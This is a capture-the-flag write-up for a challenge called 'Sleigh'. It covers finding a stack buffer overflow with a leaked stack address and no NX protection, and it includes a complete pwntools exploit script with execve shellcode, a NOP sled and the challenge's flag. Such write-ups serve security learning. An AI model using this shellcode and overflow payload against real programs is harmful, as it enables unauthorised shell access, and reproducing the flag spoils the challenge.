 # Sleigh (Day 2)

This challenge provided us with 2 files: 
1.  **sleigh** [Executable of interest]
2.  **flag.txt** [Fake flag used for testing]

I first checked the security protections of **sleigh**:

![checksec](https://user-images.githubusercontent.com/71312079/151155488-c33bce48-9f07-4988-9852-229e6ca33628.png)

Hmm... unlike day 1's challenge we now have PIE enabled but NX is disabled, leading me to 2 observations:
  * Shellcode can be loaded onto the stack and executed 
  * We somehow need to obtain the *base address* of the stack since it changes every time the file is run

I then proceed to run **sleigh** in bash and am greeted with this prompt:
![sleigh](https://user-images.githubusercontent.com/71312079/151155500-cdf2e7e4-51ec-4693-ad8a-ebc9df2bdf95.png)

Selecting **2** would terminate the program so I select **1** and proceed to the next screen: 

![sleigh2](https://user-images.githubusercontent.com/71312079/151155504-4cd19bc3-c778-449b-8aca-a43c5a2336bf.png)

Right away I notice that I am provided with an address at the end of the first line: *0x7ffde4266ec0*, which changes everytime I run the program. Could this be the base address that I was looking for?

Looking at the **repair** function in ghidra, I see that the aforementioned address is actually the address of a variable called **local_48**.

![repair](https://user-images.githubusercontent.com/71312079/151155493-52d9100c-f818-44de-8010-9347aff0e9ad.jpg)

Navigating to the address of **local_48**, I see that it is likely a 64 byte array that seems vulnerable to a buffer overflow.

![local48](https://user-images.githubusercontent.com/71312079/151156975-aec047b3-78ba-433f-80c6-9829af8d7f88.png)

From all the findings above, I now devise a strategy to obtain the flag:
1. Obtain the offset needed to overwrite the buffer until the return address
   * I used the same method as day 1's challenge [Mr Snowy](../Mr%20Snowy/README.md), which also happens to be the same value of **72**.
2. Insert the provided base address so that the function returns to the top of the stack 
3. Place the shellcode somewhere in the buffer so that it will be executed next after the step *2*
   * Shellcode taken from this [writeup](https://ctftime.org/writeup/20861) of a similar CTF challenge
5. Use a *nop sled* to ensure that the shellcode even if the return address is not exact
    * Length of nop sled = Offset [72] - length of shellcode [34] = **38**

I then crafted the following python script:

```python
from pwn import *

p = remote('178.128.35.31', 31238)
offset = 72
p.recvuntil("Abandon")
p.recvuntil("\n")
p.sendline('1')
p.recvuntil(' [')
address = p.recvuntil('\n')[:-2]

for  i in range(2):

	p.recvuntil('\n')

retaddress = p64(int(address,16))

shellcode = b'\xeb\x0b\x5f\x48\x31\xd2\x52\x5e\x6a\x3b\x58\x0f\x05\xe8\xf0\xff\xff\xff\x2f\x2f\x2f\x2f\x62\x69\x6e\x2f\x2f\x2f\x2f\x62\x61\x73\x68\x00'

nops = b'\x90'* 38
payload = [nops, shellcode,retaddress]
payload = b"".join(payload)
p.sendline(payload)
p.interactive()
```

Running the code above provides us with a shell where we can execute **"cat flag.txt"** and obtain the flag.

Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`
